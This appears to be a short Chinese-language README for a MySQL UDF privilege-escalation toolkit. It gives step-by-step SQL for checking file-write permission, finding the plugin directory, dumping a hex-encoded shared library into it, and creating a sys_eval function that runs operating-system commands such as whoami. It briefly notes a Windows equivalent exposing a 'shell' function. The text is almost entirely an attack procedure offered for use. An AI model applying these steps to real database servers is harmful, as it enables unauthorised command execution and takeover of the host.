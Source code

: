 # MySQL UDF 提权插件

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SHOW VARIABLES LIKE 'secure_file_priv';
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell


